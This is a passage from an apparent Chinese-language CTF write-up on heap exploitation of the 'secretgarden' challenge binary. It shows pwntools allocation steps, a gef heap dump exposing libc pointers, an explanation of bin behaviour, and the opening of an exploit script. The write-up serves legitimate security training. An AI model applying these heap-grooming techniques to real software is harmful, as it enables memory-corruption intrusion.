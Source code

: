 ```python

add(500,"1","1")
add(10,'2','2')
rm(0)
add(500,"3","3")
debug(0x107b,'heap chunks\nheap bins')
show()
io.interactive()
```

发现没有成功，之前在unsorted bin中大小为0x200的堆块不见了，但是在small bin里多了一个大小为0x1d0的堆块。

```bash
Chunk(addr=0x557c466fa010, size=0x30, flags=PREV_INUSE)
    [0x0000557c466fa010     00 00 00 00 00 00 00 00 50 b0 6f 46 7c 55 00 00    ........P.oF|U..]
Chunk(addr=0x557c466fa040, size=0x1010, flags=PREV_INUSE)
    [0x0000557c466fa040     33 0a 30 0a 00 00 00 00 00 00 00 00 00 00 00 00    3.0.............]
Chunk(addr=0x557c466fb050, size=0x30, flags=PREV_INUSE)
    [0x0000557c466fb050     01 00 00 00 00 00 00 00 a0 b2 6f 46 7c 55 00 00    ..........oF|U..]
Chunk(addr=0x557c466fb080, size=0x1d0, flags=PREV_INUSE)
    [0x0000557c466fb080     38 4d b8 bb db 7f 00 00 38 4d b8 bb db 7f 00 00    8M......8M......]
Chunk(addr=0x557c466fb250, size=0x30, flags=)
    [0x0000557c466fb250     01 00 00 00 00 00 00 00 80 b2 6f 46 7c 55 00 00    ..........oF|U..]
Chunk(addr=0x557c466fb280, size=0x20, flags=PREV_INUSE)
    [0x0000557c466fb280     32 0a 00 00 00 00 00 00 00 00 00 00 00 00 00 00    2...............]
Chunk(addr=0x557c466fb2a0, size=0x200, flags=PREV_INUSE)
    [0x0000557c466fb2a0     33 0a 00 00 00 00 00 00 00 00 00 00 00 00 00 00    3...............]
Chunk(addr=0x557c466fb4a0, size=0x1fb70, flags=PREV_INUSE)  ←  top chunk
[+] No Tcache in this version of libc
────────────────────── Fastbins for arena 0x7fdbbbb84b20 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────── Unsorted Bin for arena '*0x7fdbbbb84b20' ───────────────────
[+] Found 0 chunks in unsorted bin.
──────────────────── Small Bins for arena '*0x7fdbbbb84b20' ────────────────────
[+] small_bins[28]: fw=0x557c466fb070, bk=0x557c466fb070
 →   Chunk(addr=0x557c466fb080, size=0x1d0, flags=PREV_INUSE)
[+] Found 1 chunks in 1 small non-empty bins.
──────────────────── Large Bins for arena '*0x7fdbbbb84b20' ────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

分析原因可知是因为在每次种花之前需要先申请一个0x28大小的堆块，这个请求大小对应的堆块大小就是0x30，所以就先从unsorted bin中的堆块切出0x30大小的堆块，但是再次申请0x200堆块就不够了，所以失败。故解决的办法是先在分配一个0x30大小的堆块然后扔到fastbin中等着被使用：

```python
from pwn import *

# challenge information
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./secretgarden")
libc   = ELF("./libc_64.so.6")
io     = process(myelf.path,env={"LD_PRELOAD" : libc.path})

# functions for quick script
sla     = lambda delim,data         :io.sendlineafter(delim, data) 

# misc functions
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))
```